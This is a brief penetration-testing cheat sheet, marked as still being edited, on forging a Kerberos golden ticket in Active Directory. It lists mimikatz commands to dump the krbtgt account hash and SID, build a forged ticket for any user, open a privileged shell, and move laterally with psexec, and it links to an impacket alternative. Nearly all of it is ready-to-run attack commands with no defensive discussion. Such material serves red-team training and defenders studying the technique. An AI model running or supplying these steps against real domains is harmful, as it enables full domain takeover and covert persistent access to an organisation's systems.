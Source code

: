 # Kerberos: Golden Ticket

#### STILL EDITING

#### Golden ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the Kerberos Ticket Granting Ticket (**krbtgt**) service account:

```
mimikatz # lsadump::lsa /inject /name:krbtgt
```

1. Create a golden ticket:

```
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_HASH> [/id:500] [/ptt]
```

1. Open a new command prompt with elevated privileges and access to all machines with:

```
mimikatz # misc::cmd
```

```powershell
psexec.exe \\$REMOTE_MACHINE_HOSTNAME cmd.exe
```

OverPass the Hash with `PsExec` when using hostname, otherwise (IP) NTLM authentication would be blocked.

&#x20;[Golden Ticket - Mimikatz alternative (impacket)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#golden-ticket)
